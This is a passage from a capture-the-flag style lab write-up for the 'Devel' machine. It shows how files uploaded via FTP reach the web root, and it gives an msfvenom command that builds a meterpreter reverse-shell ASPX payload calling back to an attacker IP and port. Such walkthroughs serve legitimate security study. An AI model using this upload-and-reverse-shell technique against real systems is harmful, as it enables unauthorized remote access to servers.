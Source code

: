 #### Foothold
- we will attempt to put the a file in the FTP server. so we first create the file

![](assets/Devel_assets/Pasted%20image%2020230616064234.png)

- then we place the file in the FTP server using the `get` command

![](assets/Devel_assets/Pasted%20image%2020230616064313.png)

- navigating to the file in our browser, we can see that we can indeed access the file

![](assets/Devel_assets/Pasted%20image%2020230616064330.png)

- so files that a placed in the FTP server are actually in the web server directory
- so we will create a malicious aspx payload using msfvenom

```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f aspx >reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2867 bytes
```

- then we transfer the aspx file to the FTP server

![](assets/Devel_assets/Pasted%20image%2020230616065029.png)
